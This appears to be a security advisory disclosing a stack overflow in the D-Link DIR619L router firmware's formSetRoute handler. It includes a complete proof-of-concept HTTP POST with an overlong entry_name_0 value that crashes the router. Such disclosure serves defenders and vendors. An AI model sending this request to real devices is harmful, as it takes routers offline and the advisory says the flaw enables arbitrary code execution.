

# D-Link Vulnerability

Vendor:D-Link

Product:DIR619L

Version:2.06B01

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found an stack overflow vulnerability in D-Link router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `boa` binary:

In the router's `formSetRoute` function, `entry_name_%d` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `entry_name_%d` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `entry_name_%d` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `entry_name_%d` as **aaaaa......,** , and the router will crash, such as:

```http
POST /goform/formSetRoute HTTP/1.1
Host: 192.168.100.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 3094
Origin: http://192.168.100.1
Connection: close
Referer: http://192.168.100.1/Advanced/Routing.asp?t=1749220881344
Upgrade-Insecure-Requests: 1

settingsChanged=1&curTime=1431078330&enabled_0=false&entry_name_0=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&used_0=false&dlink_0=1&dest_ip_0=&subnet_0=&gw_0=&enabled_1=false&used_1=false&dlink_1=1&dest_ip_1=&subnet_1=&gw_1=&enabled_2=false&used_2=false&dlink_2=1&dest_ip_2=&subnet_2=&gw_2=&enabled_3=false&used_3=false&dlink_3=1&dest_ip_3=&subnet_3=&gw_3=&enabled_4=false&used_4=false&dlink_4=1&dest_ip_4=&subnet_4=&gw_4=&enabled_5=false&used_5=false&dlink_5=1&dest_ip_5=&subnet_5=&gw_5=&enabled_6=false&used_6=false&dlink_6=1&dest_ip_6=&subnet_6=&gw_6=&enabled_7=false&used_7=false&dlink_7=1&dest_ip_7=&subnet_7=&gw_7=&enabled_8=false&used_8=false&dlink_8=1&dest_ip_8=&subnet_8=&gw_8=&enabled_9=false&used_9=false&dlink_9=1&dest_ip_9=&subnet_9=&gw_9=&enabled_10=false&used_10=false&dlink_10=1&dest_ip_10=&subnet_10=&gw_10=&enabled_11=false&used_11=false&dlink_11=1&dest_ip_11=&subnet_11=&gw_11=&enabled_12=false&used_12=false&dlink_12=1&dest_ip_12=&subnet_12=&gw_12=&enabled_13=false&used_13=false&dlink_13=1&dest_ip_13=&subnet_13=&gw_13=&enabled_14=false&used_14=false&dlink_14=1&dest_ip_14=&subnet_14=&gw_14=&enabled_15=false&used_15=false&dlink_15=1&dest_ip_15=&subnet_15=&gw_15=&enabled_16=false&used_16=false&dlink_16=1&dest_ip_16=&subnet_16=&gw_16=&enabled_17=false&used_17=false&dlink_17=1&dest_ip_17=&subnet_17=&gw_17=&enabled_18=false&used_18=false&dlink_18=1&dest_ip_18=&subnet_18=&gw_18=&enabled_19=false&used_19=false&dlink_19=1&dest_ip_19=&subnet_19=&gw_19=&enabled_20=false&used_20=false&dlink_20=1&dest_ip_20=&subnet_20=&gw_20=&enabled_21=false&used_21=false&dlink_21=1&dest_ip_21=&subnet_21=&gw_21=&enabled_22=false&used_22=false&dlink_22=1&dest_ip_22=&subnet_22=&gw_22=&enabled_23=false&used_23=false&dlink_23=1&dest_ip_23=&subnet_23=&gw_23=&enabled_24=false&used_24=false&dlink_24=1&dest_ip_24=&subnet_24=&gw_24=&enabled_25=false&used_25=false&dlink_25=1&dest_ip_25=&subnet_25=&gw_25=&enabled_26=false&used_26=false&dlink_26=1&dest_ip_26=&subnet_26=&gw_26=&enabled_27=false&used_27=false&dlink_27=1&dest_ip_27=&subnet_27=&gw_27=&enabled_28=false&used_28=false&dlink_28=1&dest_ip_28=&subnet_28=&gw_28=&enabled_29=false&used_29=false&dlink_29=1&dest_ip_29=&subnet_29=&gw_29=&enabled_30=false&used_30=false&dlink_30=1&dest_ip_30=&subnet_30=&gw_30=&enabled_31=false&used_31=false&dlink_31=1&dest_ip_31=&subnet_31=&gw_31=
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
